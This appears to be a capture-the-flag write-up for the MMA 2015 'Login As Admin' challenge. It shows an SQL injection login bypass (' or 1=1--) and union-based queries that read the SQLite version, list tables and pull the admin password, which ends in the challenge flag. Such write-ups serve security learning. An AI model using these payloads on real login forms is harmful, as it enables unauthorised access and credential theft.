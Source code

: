 ```yaml
---
layout: post
title: "MMA 1st 2015 Login As Admin"
date: 2015-09-06 19:57:01 -0400
author: [superkojiman]
comments: true
categories: [mma]
---
```


### Solved by superkojiman

The flag is the admin user's real password. 
We can login using sql injection:

```
user: admin
pass: ' or 1=1--
```

This logs us in as admin but we still don't know the password. 

We can use union based injection to solve it. Turns out it's running sqlite: 

Return version:
```
' union select sqlite_version(),1--
```

Get tables. This returns the table "user":
```
' union select name,NULL from sqlite_master--
```

Get password of admin:
```
' union select password,NULL from user where user='admin'--
```

The above returns *You are MMA{cats_alice_band} user*. 
 
